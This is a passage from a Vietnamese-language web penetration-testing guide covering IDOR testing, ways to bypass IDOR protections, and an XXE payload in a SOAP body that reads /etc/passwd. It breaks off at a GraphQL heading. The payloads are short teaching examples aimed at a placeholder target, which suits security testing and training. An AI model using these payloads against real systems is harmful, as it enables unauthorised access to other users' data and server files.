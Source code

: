 ## 3.10. Insecure Direct Object References (IDOR)

IDOR cho phép kẻ tấn công truy cập trực tiếp vào các đối tượng dựa trên giá trị tham số do người dùng cung cấp, thường dẫn đến truy cập trái phép.

### Các kỹ thuật kiểm tra IDOR:

```
# Thay đổi ID trong URL
https://target.com/account/settings?user_id=123 -> https://target.com/account/settings?user_id=124

# Thay đổi ID trong JSON body
{"user_id": 123, "action": "view"} -> {"user_id": 124, "action": "view"}

# Thay đổi references trong cookies hoặc headers
Cookie: user=123 -> Cookie: user=124

# IDOR trong API endpoints
GET /api/users/123/profile -> GET /api/users/124/profile
```

### Kỹ thuật bypass IDOR protections:

```
# Sử dụng methods HTTP khác
POST /api/users/123 -> PUT /api/users/123

# Encode parameter
https://target.com/profile?id=123 -> https://target.com/profile?id=MTIz (base64)

# Sử dụng wildcard hoặc JSON arrays
{"user_id": "*"}
{"user_id": ["123", "124", "125"]}

# JSON parameter pollution
{"user_id": 123, "user_id": 124}
```

## 3.11. XML & API Attacks

### XXE in SOAP API:

```xml
<soap:Body>
  <foo>
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    <bar>&xxe;</bar>
  </foo>
</soap:Body>
```

### GraphQL vulnerabilities:
